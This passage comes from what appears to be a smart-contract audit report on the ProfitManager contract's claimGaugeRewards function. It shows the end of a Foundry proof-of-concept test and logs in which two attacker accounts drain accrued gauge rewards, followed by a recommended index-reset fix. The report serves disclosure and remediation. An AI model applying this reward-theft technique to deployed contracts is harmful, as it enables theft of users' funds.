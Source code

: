 ```solidity
        assertGt(profitManager.claimRewards(attacker2), 0);

        console2.log("Attacker1 CreditToken balance after stealing the GaugeRewards:" , credit.balanceOf(attacker1));
        console2.log("Attacker2 CreditToken balance after stealing the GaugeRewards:" , credit.balanceOf(attacker2));
    }
    ...
    ...
    ...
}

```


- Now, let's run the PoC with the next command `forge test --match-test testClaimGaugeRewardsMultipleTimesPoC -vvv`. The expected output should as the one below:
```
Running 1 test for test/unit/governance/ProfitManager.t.sol:ProfitManagerUnitTest
[PASS] testClaimGaugeRewardsMultipleTimesPoC() (gas: 2367526)
Logs:
  Attacker1 CreditToken balance before stealing the GaugeRewards: 0
  Attacker1 claimable GaugeRewards before performing the exploit: 0
  Attacker2 CreditToken balance before stealing the GaugeRewards: 0
  Attacker2 claimable GaugeRewards before performing the exploit: 0
  Attacker1 CreditToken balance after stealing the GaugeRewards: 40000000000000000000
  Attacker2 CreditToken balance after stealing the GaugeRewards: 40000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.96ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


## Tools Used
Manual Audit

## Recommended Mitigation Steps
- The fix to prevent this issue is to whenever the [`ProfitManager::claimGaugeRewards()` function](https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/main/src/governance/ProfitManager.sol#L409-L436) is called and the userGaugeWeight is 0, make sure to set the `userGaugeProfitIndex[user][gauge]` to equal to `gaugeProfitIndex[gauge]`, by doing this, the ProfitManager contract is preventing that new accounts can't claim rewards that were accrued before the existing GaugeRewards were generated.
  - By setting the `userGaugeProfitIndex[user][gauge]` to be equal to `gaugeProfitIndex[gauge]`, after the user has added the weight to the gauge if the user attempts to claim rewards with the just recently added weight, the computed delta in the `ProfitManager::claimGaugeRewards()` will be 0 because the weight that the user added has not yet earned any GaugeRewards.

> ProfitManager.sol
```solidity
function claimGaugeRewards(
    address user,
    address gauge
) public returns (uint256 creditEarned) {
    //@audit-info => Reads the user's weight put in the specified gauge!
    uint256 _userGaugeWeight = uint256(
        GuildToken(guild).getUserGaugeWeight(user, gauge)
    );

    //@audit-info => If the user has not put GUILD tokens in the specified gauge it can't claim!
    if (_userGaugeWeight == 0) {
        //@audit-recommendation => Set the `userGaugeProfitIndex[user][gauge]` to be equals to `gaugeProfitIndex[gauge]`
```